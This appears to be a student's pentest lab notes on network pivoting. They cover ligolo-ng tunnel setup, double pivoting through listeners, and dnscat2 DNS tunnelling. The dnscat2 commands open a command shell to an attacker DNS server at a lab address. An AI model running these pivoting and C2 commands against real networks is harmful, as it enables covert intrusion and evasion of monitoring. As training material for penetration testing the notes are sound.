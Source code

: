 ```
ip tuntap add user root mode tun ligolo  
ip link set ligolo up
```

* Run `ip a` to ensure that a `ligolo` interface is present.

Once a foothold is established on the pivot host, we transfer the `agent` binary to the pivot host.

Then, start the `proxy` on our attack host using `./proxy -selfcert`.  Note down the listening port (11601).

* Afterwards, start the `agent` binary using `./agent -connect <ip>:<port> -ignore-cert`.

On the attack host, connect to the active session using the `session` command.

Then, add a new route on the proxy using:
`ip route add <internal network CIDR block> dev ligolo`

Finally, start the session using `start`.

#### Double Pivoting

For double pivoting, download the agent on the second pivot server. Then, run this command to start a listener on the first pivot (this is done from the attack host):
`listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp`

* We can confirm that a listener is enabled if we run `listener_list`.

Then, run the agent on the second pivot, and set the connecting host as the first pivot.

* Ensure that the IP CIDR block used is correct. Use the same port 11601.

Once done, we should see a new session appear in the attack host (using `session`). Stop the current session and start the new session accordingly. This will give us a tunnel through the second pivot.

* Remember to update the `ip route` as well.

## DNS Tunnelling

Tool used - `dnscat2`.

* Uses an encrypted C2 channel and sends data through TXT records via DNS.
* Idea: Our attack host becomes a DNS server, and data is sent to our server under the guise of being a DNS query.

Start server with `sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache`

* Note down the pre-shared secret which is generated.

Transfer the `dnscat2.ps1` file to the target, then run:

```powershell-session
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```
